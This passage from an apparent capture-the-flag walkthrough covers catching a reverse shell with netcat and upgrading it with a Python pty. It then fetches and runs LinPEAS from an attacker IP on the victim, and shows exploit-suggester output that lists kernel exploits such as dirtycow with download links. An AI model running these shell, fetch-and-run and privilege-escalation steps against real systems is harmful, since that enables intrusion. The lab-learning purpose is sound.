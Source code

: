 Reverse shell is uploaded. Get your netcat listening on port 1234 (or other):

```bash
nc -lnvp 1234
```

Click on button "Image File not Found" and... bingo! You have a shell on your listener.

[Spawn your shell](spawn-a-shell.md).

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```


Get user's flag in /home/george/user.txt


## Flag root.txt

From previous user of the machine we know that this machine has probably a dirtycow vulnerability. But we can server from our machine the script [LinPEAS](linpeas.md).

Now in the victim's machine:

```bash
wget http://<attacker IP>/linpeas.sh
chmod +x linpeas.sh
./linpeash.sh
```


Results:

```                                                                                                                          
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                         
[+] [CVE-2012-0056,CVE-2010-3849,CVE-2010-3850] full-nelson                                                                

   Details: http://vulnfactory.org/exploits/full-nelson.c
   Exposure: highly probable
   Tags: [ ubuntu=(9.10|10.10){kernel:2.6.(31|35)-(14|19)-(server|generic)} ],ubuntu=10.04{kernel:2.6.32-(21|24)-server}
   Download URL: http://vulnfactory.org/exploits/full-nelson.c

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},ubuntu=16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2010-3904] rds

```